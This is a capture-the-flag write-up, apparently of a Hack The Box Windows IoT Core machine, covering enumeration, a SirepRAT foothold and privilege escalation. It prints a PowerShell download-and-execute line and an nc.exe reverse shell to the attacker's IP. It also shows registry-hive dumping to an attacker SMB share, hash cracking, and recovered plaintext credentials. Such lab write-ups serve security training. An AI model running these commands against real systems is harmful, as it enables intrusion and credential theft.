








# Omni
## Enumeration
- ```nmap```
```
└─$ nmap -p135,5985,8080,29817,29819,29820 -Pn 10.10.10.204 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 19:00 BST
Nmap scan report for 10.10.10.204 (10.10.10.204)
Host is up (0.16s latency).

PORT      STATE SERVICE
135/tcp   open  msrpc
5985/tcp  open  wsman
8080/tcp  open  http-proxy
29817/tcp open  unknown
29819/tcp open  unknown
29820/tcp open  unknown
```
```
└─$ nmap -p135,5985,8080,29817,29819,29820 -Pn -sC -sV 10.10.10.204 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 19:00 BST
Nmap scan report for 10.10.10.204 (10.10.10.204)
Host is up (0.14s latency).

PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.93%I=7%D=7/5%Time=64A5AFBD%P=x86_64-pc-linux-gnu%r(NU
SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
SF:9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.05 seconds
```
- Port `8080`


- `rpcclient`


- Other open ports indicate that it uses [Windows IOT Core](https://developer.microsoft.com/en-us/windows/iot/)
  - https://social.msdn.microsoft.com/Forums/vstudio/en-US/75314423-de13-4eff-bd15-0fec8b9c1da4/ports-open?forum=WindowsIoT
  - https://www.blackhat.com/docs/us-16/materials/us-16-Sabanal-Into-The-Core-In-Depth-Exploration-Of-Windows-10-IoT-Core-wp.pdf
## Foothold
- Googling more about the ports revealed the following [github page](https://github.com/SafeBreach-Labs/SirepRAT) indicating `Sirep` protocol
  - Check the [docs](https://github.com/SafeBreach-Labs/SirepRAT/tree/master/docs) for more info about the 
  - We can test the exploit


- Now let's try getting the reverse shell
  - I tried running `powershell -c iex(new-object net.webclient).downloadstring("http://10.10.16.12:8000/shell.ps1")`, which failed



- So I tried simply downloading the shell using `Invoke-WebRequest` which is worked
  - But it is better to download it to the [writable folder](https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs), for example to `C:\Windows\System32\spool\drivers\color`
  - I tried running powershell's versions of reverse shell, had no success
  - So I used `nc`: `/c c:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.16.12 6666`




## User
- If we check the `c:` drive, we have a `data` folder
  - No users `c:\Users`
  - But there are users in `c:\Data\Users\`



- If we check the folders, we can the flags but they are PSCredential files
  - We need a passwords to decrypt them


- Since we are `SYSTEM` we can dump the SAM hashes
  - Start `smbserver` on attack box: `impacket-smbserver share . -smb2support -username pentest -password pentest`
  - Mount the share to the box: `net use \\10.10.16.12\share /u:pentest pentest`
  - Dump the hives to the share:
    - `reg save HKLM\sam \\10.10.16.12\share\sam`
    - `reg save HKLM\system \\10.10.16.12\share\system`
    - `reg save HKLM\security \\10.10.16.12\share\security`
  - Dump the hashes: `impacket-secretsdump -sam sam -security security -system system LOCAL`
  - Crack the `app` user's hash: `hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt`
    - `app:mesh5143`





- Creds work to access the page on port `8080`
  - Get reverse shell






- Now we can decrypt the flag using `Import-CliXml`
  - `(Import-CliXml -Path user.txt).GetNetworkCredential().Password`



## Root
- We find interesting files inside `app`'s folder: `hardening.txt` and `iot-admin.xml`
  - `iot-admin.xml` is also PSCredential file
    - We can decrypt the same way as the flag: `(Import-CliXml -Path iot-admin.xml).GetNetworkCredential() | fl`
      - `administrator:_1nt3rn37ofTh1nGz`


- Let's get reverse shell the same way as before via port `8080`
  - `(Import-CliXml -Path root.txt).GetNetworkCredential().Password`


